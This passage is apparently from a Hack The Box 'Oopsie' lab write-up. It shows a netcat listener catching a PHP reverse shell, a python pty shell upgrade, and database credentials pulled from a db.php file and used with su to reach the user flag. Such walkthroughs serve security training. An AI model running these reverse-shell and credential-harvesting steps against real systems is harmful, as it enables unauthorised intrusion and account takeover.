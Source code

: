 ```bash
nc -lvnp 4444
listening on [any] 4444 ...
```

```bash
curl http://10.10.10.28/uploads/php-reverse-shell.php
```

![](2025-05-31-oopsie-14.png)

* We got a reverse shell! In order to have a functional shell though we can issue the following:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Post Exploitation

* First check web user directory where it has some interesting information.

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
```

* Here we found `db.php` file in `/var/www/html/cdn-cgi/`login directory. let’s view this file.

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

* Oh! here we found new user credentials.
* `robert:M3g4C0rpUs3r!`
* So let’s access Robert’s user, providing the password found. `su robert`

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$
```

* Yes it works and now we are in robert user. we can view our user flag now. Let’s check and submit it to HTB.

```bash
robert@oopsie:~$ cat user.txt
cat user.txt
f2c74*******************b7981
```
